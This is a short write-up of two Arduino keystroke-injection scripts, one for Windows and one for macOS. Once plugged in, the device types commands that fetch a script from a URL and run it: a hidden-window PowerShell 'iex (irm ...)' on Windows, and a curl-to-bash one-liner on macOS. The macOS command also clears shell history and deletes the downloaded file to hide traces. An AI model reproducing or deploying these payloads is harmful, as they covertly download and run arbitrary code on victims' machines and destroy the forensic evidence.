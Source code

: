 # Script Runner
<br>

**script_runner_win.ino:** Once plugged in, it hits win+r which opens the run menu. Then it types out `powershell -w h iex (irm "[url]")`. Here, `-w h` makes it so the process is ran in a hidden window, `irm "[url]"` sends a request to the url and gets the raw text which is then executed by `iex`

<br>

**script_runner_mac.ino:** Once plugged in, it hits cmd+space which opens spotlight. Then it types `Terminal.app` and hits enter to open up the terminal application. Then it types out `"$( curl "[url]" > $TMPDIR/16691615; bash $TMPDIR/16691615; history -c; rm ~/.bash_history;rm $TMPDIR/16691615 )" & disown;`, and then it quits the terminal by hitting command+q and then enter (it hits enter because of the "Do you want to terminate the processes in this window" prompt). Here, `curl "[url]" > $TMPDIR/16691615` saved the script to a file, `bash $TMPDIR/16691615` executed the file, `history -c`, `rm ~/.bash_history`, `rm $TMPDIR/16691615` clear our traces, and `& disown` ensures that these processes keep running even if the terminal is exited
